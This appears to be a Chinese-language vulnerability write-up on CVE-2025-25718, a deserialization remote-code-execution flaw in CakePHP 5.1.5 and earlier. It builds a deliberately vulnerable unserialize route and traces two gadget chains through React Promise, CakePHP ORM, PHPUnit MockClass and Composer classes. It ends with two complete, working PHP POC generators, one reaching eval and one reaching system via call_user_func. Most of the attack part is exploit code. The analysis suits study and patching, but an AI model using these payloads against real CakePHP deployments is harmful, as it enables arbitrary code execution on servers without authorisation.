








## 0x01CakePHP框架

官方文档：https://book.cakephp.org/5/en/intro.html

CakePHP 5 是一个基于 PHP **8.4**（最低 PHP 8.1）的 Web 开发框架。采用 **MVC（Model-View-Controller）架构**，旨在帮助开发者快速构建稳定、可扩展的 Web 应用程序。它提供了丰富的内置功能，如数据库访问、表单验证、安全防护、缓存管理等，同时遵循 **"约定优于配置"（Convention over Configuration）** 原则，减少开发者的手动配置工作。

## 0x02漏洞描述

其实这个漏洞是infer师傅审出来的一个反序列化的漏洞，因为之前也审过很多php框架的漏洞，所以我还是想给自己挑战一下这种还没公开的框架反序列化看看能不能审出来

Cakephp v.5.1.5及之前版本中存在一个问题，允许远程攻击者通过unserialize（）函数执行任意代码（**CVE-2025-25718**）

对PHP版本的要求：最低 PHP 8.1（支持**8.4**）。

## 0x03项目搭建

先下一个PHP8.1以上的版本，我这里是直接用的8.1.32版本

然后我们用composer创建一个CakePHP项目

```php
composer create-project --prefer-dist cakephp/app:~5.0 cakephp_project
```



碰到一个报错，说是PHP 环境缺少 **OpenSSL 扩展**，需要开启该扩展，给php.ini文件修改一下

```php
extension=openssl
```

然后再试一下还是不行

顺便把这些扩展也开了吧

```php
extension=curl
extension=intl
extension=pdo_mysql
extension=pdo_sqlite
extension=gd
extension=mbstring
extension=sqlite3
```

结果还是不行。。。

后面把小皮和里面的php全部删了重新下载，结果发现可以了



不过这里得把zip的扩展也开了

好了之后我们启动项目试试

```php
cd my_cakephp_project
php bin/cake.php server	//Windows下
bin/cake.php server	//Linux下
```



然后访问8765端口



把版本换成5.1.5的也可以



然后我们自己在\src\Controller下写一个反序列化的路由

```php
<?php
namespace App\Controller;

use App\Controller\AppController;

class TestController extends AppController{

    public function test(){
        if(isset($_GET['poc'])){
            unserialize(base64_decode($_GET['poc']));
        }else{
            highlight_file(__FILE__);
        }
        return "success";
    }
}
```

CakePHP 默认的路由规则会自动将 `/test/test` 映射到 `TestController::test()`

## 0x04链子分析

我们用phpstorm打开该项目， 先搜一下常见的链子入口函数`__destruct()`，筛选之后找到一个类

### RejectedPromise::__destruct()

在cakephp-5.1.5\vendor\react\promise\src\Internal\RejectedPromise.php中

```php
    public function __destruct()
    {
        if ($this->handled) {
            return;
        }

        $handler = set_rejection_handler(null);
        if ($handler === null) {
            $message = 'Unhandled promise rejection with ' . $this->reason;

            \error_log($message);
            return;
        }

        try {
            $handler($this->reason);
        } catch (\Throwable $e) {
            \preg_match('/^([^:\s]++)(.*+)$/sm', (string) $e, $match);
            \assert(isset($match[1], $match[2]));
            $message = 'Fatal error: Uncaught ' . $match[1] . ' from unhandled promise rejection handler' . $match[2];

            \error_log($message);
            exit(255);
        }
    }
```

这里的话需要先设置handler的值，防止return跳出



这里的话会进行字符串的拼接，那么就可能导致触发`__toString()`方法，我们看看该方法是否可控

```php
private $reason;
```

是私有属性的，我们看一下构造函数

```php
    public function __construct(\Throwable $reason)
    {
        $this->reason = $reason;
    }
```

公共的属性，那么就可以控制该属性的值

全局搜索一下`__toString()`方法

### Response::__toString()

在\cakephp-5.1.5\vendor\cakephp\cakephp\src\Http\Response.php中

```php
    public function __toString(): string
    {
        $this->stream->rewind();

        return $this->stream->getContents();
    }
```

这里的话会调用rewind方法和getContents方法，并且这里的话stream是可控的 （分析方法也是看构造函数）

既然可控的话，我们就有两个路线，一个就是看这两个方法有没有什么可利用的点，另一个就是触发`__call()`方法

但是那两个方法都没有什么可利用的地方，那我们就关注一下触发`__call()`

全局搜索`__call()`方法

### Table::__call()

在\cakephp-5.1.5\vendor\cakephp\cakephp\src\ORM\Table.php中

```php
    public function __call(string $method, array $args): mixed
    {
        if ($this->_behaviors->hasMethod($method)) {
            return $this->_behaviors->call($method, $args);
        }
        if (preg_match('/^find(?:\w+)?By/', $method) > 0) {
            return $this->_dynamicFinder($method, $args);
        }

        throw new BadMethodCallException(
            sprintf('Unknown method `%s` called on `%s`', $method, static::class),
        );
    }
```

这里的话会调用hasMethod方法检查Behavior中的方法，而hasMethod方法是在BehaviorRegistry类中的

```php
    public function hasMethod(string $method): bool
    {
        $method = strtolower($method);

        return isset($this->_methodMap[$method]);
    }
```

再跟进下`_methodMap`

```php
protected array $_methodMap = [];
```

从上面可以发现，我们的方法名就是rewind，所以我们需要设置`_methodMap`中一个值rewind，才能通过if语句的判断并调用call方法

我们跟进下call方法

```php
   public function call(string $method, array $args = []): mixed
    {
        $method = strtolower($method);
        if ($this->hasMethod($method) && $this->has($this->_methodMap[$method][0])) {
            [$behavior, $callMethod] = $this->_methodMap[$method];

            return $this->_loaded[$behavior]->{$callMethod}(...$args);
        }

        throw new BadMethodCallException(
            sprintf('Cannot call `%s`, it does not belong to any attached behavior.', $method),
        );
    }
```

在这个if语句中前面的hasMethod方法是前面看过的，然后我们看下后面的has方法，该方法是BehaviorRegistry的父类ObjectRegistry类中的方法

```php
    public function has(string $name): bool
    {
        return isset($this->_loaded[$name]);
    }
```

这里的话还是可控的，那就可以通过if语句进入return内容

```php
return $this->_loaded[$behavior]->{$callMethod}(...$args);
```

这里的话就是一个动态调用函数，所以call函数可以调用任意类的任意函数，但是问题是这里的参数并不可控，如果按照刚刚的路线的话，方法名就固定是rewind了，那么我们需要另外找一个函数，全局搜一下危险函数如eval，call_user_func这些

### MockClass::generate()

在\cakephp-5.1.5\vendor\phpunit\phpunit\src\Framework\MockObject\Generator\MockClass.php

```php
    public function generate(): string
    {
        if (!class_exists($this->mockName, false)) {
            eval($this->classCode);

            call_user_func(
                [
                    $this->mockName,
                    '__phpunit_initConfigurableMethods',
                ],
                ...$this->configurableMethods,
            );
        }

        return $this->mockName;
    }
```

这个generate函数的话不需要参数，并且classCode变量是可控的，if语句中的也是可控的，那么就可以用这个去打

## 0x05最终的链子&POC

### 最终的链子1

```php
RejectedPromise::__destruct()->Response::__toString()->Table::__call()->BehaviorRegistry::call()->MockClass::generate()->eval()
```

所以我们的poc就是

### POC1

```php
<?php
namespace React\Promise\Internal;
use Cake\Http\Response;
final class RejectedPromise
{
    private $reason;
    private $handled = false;
    public function __construct(){
        $this->reason = new Response();
    }
}


namespace Cake\Http;
use Cake\ORM\Table;
class Response
{
    private $stream;
    public function __construct(){
        $this->stream = new Table();
    }
}


namespace Cake\ORM;
use PHPUnit\Framework\MockObject\Generator\MockClass;
class Table{
    protected $_behaviors;
    public function __construct(){
        $this->_behaviors = new BehaviorRegistry();
    }
}

class ObjectRegistry{}
class BehaviorRegistry extends ObjectRegistry
{
    protected $_methodMap;
    protected $_loaded = [];
    public function __construct(){
        $this->_methodMap = ["rewind"=>array("test","generate")];
        $this->_loaded = ["test"=>new MockClass()];
    }
}


namespace PHPUnit\Framework\MockObject\Generator;
final class MockClass
{
    private $mockName;
    private $classCode;
    public function __construct() {
        $this->mockName = "aaa";
        $this->classCode = "phpinfo();";
    }

}


namespace React\Promise\Internal;
$a = new RejectedPromise();
echo base64_encode(serialize($a));

```

进行URL编码后传入



代码执行成功

## 0x06链子2分析

和上面的前半段是一样的，然后就到`__toString()`方法不一样

### Pool::__toString()

在cakephp-5.1.5\vendor\composer\composer\src\Composer\DependencyResolver\Pool.php中的`__toString()`

```php
    public function __toString(): string
    {
        $str = "Pool:\n";

        foreach ($this->packages as $package) {
            $str .= '- '.str_pad((string) $package->id, 6, ' ', STR_PAD_LEFT).': '.$package->getName()."\n";
        }

        return $str;
    }
```

这里的话也是用的字符串拼接，用了foreach语句进行遍历，但是如果我们的变量是一个接入**IteratorAggregate**接口的对象，那么就会自动调用类里的`getIterator`方法

https://php.golaravel.com/language.oop5.iterations.html

我们全局搜索一下`getIterator`方法

### MapReduce::getIterator()

在vendor/cakephp/cakephp/src/Collection/Iterator/MapReduce.php中

```php
    public function getIterator(): Traversable
    {
        if (!$this->_executed) {
            $this->_execute();
        }

        return new ArrayIterator($this->_result);
    }
protected bool $_executed = false;
```

`_executed`变量默认是false，我们跟进`_execute`方法

```php
    protected function _execute(): void
    {
        $mapper = $this->_mapper;
        foreach ($this->_data as $key => $val) {
            $mapper($val, $key, $this);
        }

        if ($this->_intermediate && $this->_reducer === null) {
            throw new LogicException('No reducer function was provided');
        }

        $reducer = $this->_reducer;
        if ($reducer !== null) {
            foreach ($this->_intermediate as $key => $list) {
                $reducer($list, $key, $this);
            }
        }
        $this->_intermediate = [];
        $this->_executed = true;
    }
```

主要看这段代码



这里的话也是用到了动态函数调用的方法，那我们看看这三个参数是否可控

```php
protected $_mapper;
protected iterable $_data;
public function __construct(iterable $data, callable $mapper, ?callable $reducer = null)
{
    $this->_data = $data;
    $this->_mapper = $mapper;
    $this->_reducer = $reducer;
}
```

参数可控，那我们可以用call_user_func，从而进行RCE

### 最终的链子2

```php
RejectedPromise::__destruct()->Pool::__toString()->MapReduce::getIterator()
```

### POC2

```php
<?php
namespace React\Promise\Internal;
use Composer\DependencyResolver\Pool;
class RejectedPromise
{
    private $handled;
    private $reason;

    public function __construct()
    {
        $this->handled = false;
        $this->reason = new Pool();
    }
}


namespace Composer\DependencyResolver;
use Cake\Collection\Iterator\MapReduce;
class Pool
{
    protected $packages;

    public function __construct()
    {
        $this->packages = new MapReduce();
    }
}

namespace Cake\Collection\Iterator;
class MapReduce
{
    protected $_mapper;
    protected $_data;

    public function __construct()
    {
        $this->_mapper = "call_user_func";
        $this->_data = ["calc" => "system"];
    }
}


namespace React\Promise\Internal;
$a = new RejectedPromise();
echo base64_encode(serialize($a));

```

貌似这里是没回显的？只能打无回显RCE这些了
